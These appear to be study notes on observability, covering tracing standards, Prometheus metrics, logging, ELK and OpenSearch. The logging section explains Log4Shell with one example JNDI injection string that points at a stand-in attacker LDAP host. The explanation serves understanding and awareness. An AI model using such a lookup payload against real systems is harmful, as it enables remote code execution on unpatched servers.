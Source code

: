 # Observability

Observability is a way to keep track of system and application health and performance in the cloud-native age in order to keep those systems and applications up and running.

The three core pillars of observability are 
1. traces
2. metrics
3. logs


# Pillar 1: Tracing

A trace starts with a request, which can also trigger downstream requests to other services, generating a tree structure of multiple requests. 
Tracing provides insight into the journey of requests across system components like APIs, load balancers, services, and databases.


Distributed tracing is the method of tracking the performance of application requests to monitor microservices, 
enabling developers, site reliability engineers (SREs), IT ops, and DevOps users to identify performance issues.

It is based on concepts Google published in its [Dapper paper](https://research.google/pubs/dapper-a-large-scale-distributed-systems-tracing-infrastructure/) back in 2010. 
The idea is to implicitly observe how a set of services interact with each other by having each service emit information about the actions it performed and enrich those signals with a common identifier.


### Implementing Tracing

There are many standards and implementations of tracing. There are currently three widely-used standards: 
1. Opentracing: The most widely used standard is Opentracing, started by CNCF. It supports plenty of programming languages. Meanwhile, it has already integrated with many widely used frameworks like spring, nginx and resttemplate.
2. Opencensus: Started by Google, it supports both tracing and metrics data. But compared with opentracing, it supports fewer frameworks and programming languages. 
3. Opentelemetry: It not only combines pros of both opentracing and opencensus, but also avoids their cons. 



# Pillar 2: Metrics

Metrics represent aggregate data points reflecting a system's operational state, including query rates, API responsiveness, and service latencies
Various TimeSeries databases like Influx can be used to store the data and visualized using Grafana

Prometheus is the most commonly used metrics-based open source monitoring solution.

[Prometheus documentation](https://prometheus.io/docs/introduction/overview/) provides this architecture diagram

![img](imgs/prometheus.png)

For most use cases, you should understand three major components of Prometheus:

1. The **Prometheus server** scrapes and stores metrics. Note that it uses a persistence layer, which is part of the server and not expressly mentioned in the documentation. Each node of the server is autonomous and does not rely on distributed storage. **So you will in most cases need a time-series database to store Prometheus data, rather than relying on the server itself**.
2. **The web UI** allows you to access, visualize, and chart the stored data. Prometheus provides its own UI, but **you can also configure other visualization tools, like Grafana**, to access the Prometheus server using PromQL (the Prometheus Query Language).
3. **Alertmanager** sends alerts from client applications, especially the Prometheus server. It has advanced features for deduplicating, grouping, and routing alerts and **can route through other services like PagerDuty and OpsGenie.**

The key to understanding Prometheus is that **it fundamentally relies on scraping, or pulling, metrics from defined endpoints. This means that your application needs to expose an endpoint where metrics are available and instruct the Prometheus server how to scrape it**.

There are exporters for many applications that do not have an easy way to add web endpoints, such as Kafka and Cassandra **(using the JMX exporter)**


# Pillar 3: Logs
Logging involves recording discrete events within a system, such as incoming requests, database accesses, time taken to process the request and obviously errors.

In Java world, log4j is a standard, while similarly python provides id own logging module

```
Recently, the software development community was shaken by a significant security vulnerability associated with Apache Log4j, 

This vulnerability, tracked as CVE-2021-44228, and commonly referred to as Log4Shell or Log4j vulnerability, exposed a critical security flaw that could potentially allow remote attackers to execute arbitrary code on affected systems, leading to serious security breaches.

In essence, Log4Shell is a vulnerability that exploits Log4j's ability to dynamically interpret log messages, allowing attackers to inject and execute malicious code through seemingly harmless log entries.

eg. if an attacker sends a simple message like logger.info("Hello ${jndi:ldap://attacker.com/evil}")
It tells Log4j to look up a resource using JNDI (Java Naming and Directory Interface), specifically trying to connect to an LDAP server hosted by the attacker.
The attacker, via controlling the LDAP server, can send back a response containing malicious code. Log4j, being unaware of the danger, would then execute this code, leading to potential security breaches, such as taking control of the system or accessing sensitive information.

The severity of the Log4Shell vulnerability prompted immediate action from software vendors, organizations, and security researchers worldwide. The widespread adoption of Log4j across a myriad of applications and systems meant that the vulnerability posed a significant risk to a vast number of digital assets and infrastructure.

In response to the Log4Shell threat, the Apache Software Foundation swiftly released patches and updates to address the vulnerability. Additionally, security advisories were issued, urging users to upgrade their Log4j installations to patched versions as soon as possible to mitigate the risk of exploitation.
```


As our applications, and microservices can generate a lot of logs, we often need to use an analysis platform to collate and query these logs
The ELK stack (Elasticsearch, Logstash, Kibana) is commonly used to build log analysis platforms. 


### What is the ELK Stack?
The ELK Stack began as a collection of three open-source products — Elasticsearch, Logstash, and Kibana — all developed, managed and maintained by Elastic. The introduction and subsequent addition of Beats turned the stack into a four legged project.

* **Elasticsearch** is a full-text search and analysis engine, based on the Apache Lucene open source search engine. 
* **Logstash** is a log aggregator that collects data from various input sources, executes different transformations and enhancements and then ships the data to various supported output destinations. It’s important to know that many modern implementations of ELK do not include Logstash. To replace its log processing capabilities, most turn to lightweight alternatives like Fluentd, which can also collect logs from data sources and forward them to Elasticsearch. 
* **Kibana** is a visualization layer that works on top of Elasticsearch, providing users with the ability to analyze and visualize the data. And last but not least — Beats are lightweight agents that are installed on edge hosts to collect different types of data for forwarding into the stack.
* **Beats** refers to a family of lightweight data shippers or agents developed by Elastic. Beats are designed to efficiently collect, ship, and parse log data or metrics from various sources to Elasticsearch or Logstash for indexing and analysis.

![](imgs/elk.png)


In early 2021, Elastic announced a bombshell in the open source world: [the ELK Stack would no longer be open source, as of version 7.11](https://logz.io/blog/open-source-elasticsearch-doubling-down/).   
As, I Understand, they did this because they were concerned about other big companies, like Amazon Web Services (AWS), using their open source software without contributing much back to the community. They felt that this wasn't fair, as they were investing a lot of resources into developing and maintaining the software.
In response, AWS created their own open-source version of Elasticsearch called OpenSearch (forked from ElasticSearch).

### OpenSearch Components

Source [OpenSearch Documentation](https://opensearch.org/docs/latest/data-prepper/common-use-cases/log-analytics/)

![](imgs/opensearch.jpg)

* **FluentBit** can be used as a component for log collection and forwarding. Fluent Bit can be containerized through Kubernetes, Docker, or Amazon Elastic Container Service (Amazon ECS). You can also run Fluent Bit as an agent on Amazon Elastic Compute Cloud (Amazon EC2). Configure the Fluent Bit http output plugin to export log data to Data Prepper.
* **Data Prepper** supports receiving logs from Fluent Bit through the HTTP Source and processing those logs with a Grok Processor before ingesting them into OpenSearch through the OpenSearch sink.

* ![](imgs/data-prepper.jpg)
